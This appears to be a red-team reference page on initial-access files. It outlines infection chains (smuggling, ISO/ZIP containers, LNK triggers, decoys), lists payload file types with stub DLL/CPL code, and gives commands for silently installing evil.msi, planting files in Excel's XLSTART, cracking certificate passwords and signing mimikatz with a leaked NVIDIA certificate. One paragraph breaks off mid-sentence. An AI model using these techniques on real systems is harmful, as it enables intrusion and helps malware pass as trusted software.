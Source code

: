 # Initial Access

> Initial Access Files in the context of a Red Team exercise refer to the set of files, scripts, executables, or documents used by the Red Team to initially infiltrate the target system or network. These files often contain malicious payloads or are designed to exploit specific vulnerabilities in order to establish a foothold in the target environment.

## Summary

* [Complex Chains](#complex-chains)
* [Container](#container)
* [Payload](#payload)
    * [Binary Files](#binary-files)
    * [Code Execution Files](#code-execution-files)
    * [Embedded Files](#embedded-files)
* [Code Signing](#code-signing)


## Complex Chains

> DELIVERY(CONTAINER(TRIGGER + PAYLOAD + DECOY))

* **DELIVERY**: means to deliver a pack full of files
    * HTML Smuggling, SVG Smuggling, Attachments
* **CONTAINER**: archive bundling all infection dependencies
    * ISO/IMG, ZIP, WIM
* **TRIGGER**: some way to run the payload
    * LNK, CHM, ClickOnce applications
* **PAYLOAD**: the malware
    * Binary Files
    * Code Execution Files
    * Embedded Files
* **DECOY**: used to continue pretext narration after detonating malware
    * Typically open PDF files

Examples:
* HTML SMUGGLING(PASSWORD PROTECTED ZIP + ISO(LNK + IcedID  + PNG)) used by [TA551/Storm-0303](https://thedfirreport.com/2023/08/28/html-smuggling-leads-to-domain-wide-ransomware/)


## Container

* **ISO/IMG** - can contain hidden files, gets **automounted** giving easy access to contained files (`powershell –c .\malware.exe`)
* **ZIP** - can contain hidden files (locate ZIP + unpack it + change dir + run Malware)
* **WIM** - Windows Image, builtin format used to deploy system features
    ```ps1
    # Mount/Unmount .WIM
    PS> Mount-WindowsImage -ImagePath myarchive.wim -Path "C:\output\path\to\extract" -Index 1
    PS> Dismount-WindowsImage -Path "C:\output\path\to\extract" -Discard
    ```
* **7-zip, RAR, GZ** - should get a native support on Windows 11


## Trigger

* **LNK**
* **CHM**
* **ClickOnce**


## Payload

### Binary Files

These files can be executed directly on the system without any third party.

* **.exe** file, executable file can be run with a click
* **.dll** file, execute with `rundll32 main.dll,DllMain`
    ```c
    #define WIN32_LEAN_AND_MEAN
    #include <windows.h>

    extern "C" __declspec(dllexport)
    DWORD WINAPI MessageBoxThread(LPVOID lpParam) {
    MessageBox(NULL, "Hello world!", "Hello World!", NULL);
    return 0;
    }

    extern "C" __declspec(dllexport)
    BOOL APIENTRY DllMain(HMODULE hModule,
                        DWORD ul_reason_for_call,
                        LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, MessageBoxThread, NULL, NULL, NULL);
        break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
    }
    ```
* **.cpl** file, same as a .dll file with Cplapplet export
    ```c
    #include "stdafx.h"
    #include <Windows.h>

    extern "C" __declspec(dllexport) LONG Cplapplet(
        HWND hwndCpl,
        UINT msg,
        LPARAM lParam1,
        LPARAM lParam2
    )
    {
        MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
        return 1;
    }

    BOOL APIENTRY DllMain( HMODULE hModule,
                        DWORD  ul_reason_for_call,
                        LPVOID lpReserved
                        )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
        {
            Cplapplet(NULL, NULL, NULL, NULL);
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    ```


### Code Execution Files

* Word with Macro (.doc, .docm)
* Excel library (.xll)
* Excel macro-enabled add-in file (.xlam)
    ```ps1
    xcopy /Q/R/S/Y/H/G/I evil.ini %APPDATA%\Microsoft\Excel\XLSTART
    ```
* WSF files (.wsf)
* MSI installers (.msi)
    ```ps1
    powershell Unblock-File evil.msi; msiexec /q /i .\evil.msi 
    ```
* MSIX/APPX app package (.msix, .appx)
* ClickOnce (.application, .vsto, .appref-ms)
* Powershell scripts (.ps1)
* Windows Script Host scripts (.wsh, .vbs)
    ```ps1
    cscript.exe payload.vbs
    wscript payload.vbs
    wscript /e:VBScript payload.txt
    ```


### Embedded Files

* ICS Calendar Invites with Embedded Files


## Code Signing

Certificate can be **Expired**, **Revoked**, **Valid**.

Many certificates leaked on the Internet and got re-used by Threat Actor.
Some of them can be found on VirusTotal, with the query :  `content:{02 01 03 30}@4 AND NOT tag:peexe`

In 2022, LAPSUS$ claimed responsibility for a cyberattack on NVIDIA, a major graphics card and AI technology manufacturer. As part of this attack, LAPSUS$ allegedly stole proprietary data from NVIDIA and threatened to leak it. The leak contained


* Certificates can be password protected. Use [pfx2john.py](https://gist.github.com/tijme/86edd06c636ad06c306111fcec4125ba)
    ```ps1
    john --wordlist=/opt/wordlists/rockyou.txt --format=pfx pfx.hashes
    ```
* Sign a binary with a certificate.
    ```ps1
    osslsigncode sign -pkcs12 certs/nvidia-2014.pfx -in mimikatz.exe -out generated/signed-mimikatz.exe -pass nv1d1aRules
    ```
* The following files can be signed with a certificate
    * executables: .exe, .dll, .ocx, .xll, .wll
    * scripts: .vbs, .js, .ps1
    * installers: .msi, .msix, .appx, .msixbundle, .appxbundle
    * drivers: .sys
    * cabinets: .cab
    * ClickOnce: .application, .manifest, .vsto


## References

* [Top 10 Payloads: Highlighting Notable and Trending Techniques - delivr.to](https://blog.delivr.to/delivr-tos-top-10-payloads-highlighting-notable-and-trending-techniques-fb5e9fdd9356)
* [Executing Code as a Control Panel Item through an Exported Cplapplet Function - @spotheplanet](https://www.ired.team/offensive-security/code-execution/executing-code-in-control-panel-item-through-an-exported-cplapplet-function)
* [Desperate Infection Chains - Multi-Step Initial Access Strategies by Mariusz Banach - x33fcon Youtube](https://youtu.be/CwNPP_Xfrts)
* [Desperate Infection Chains - Multi-Step Initial Access Strategies by Mariusz Banach - x33fcon PDF](https://binary-offensive.com/files/x33fcon%20-%20Desperate%20Infection%20Chains.pdf)
* [Red Macros Factory - https://binary-offensive.com/](https://binary-offensive.com/initial-access-framework)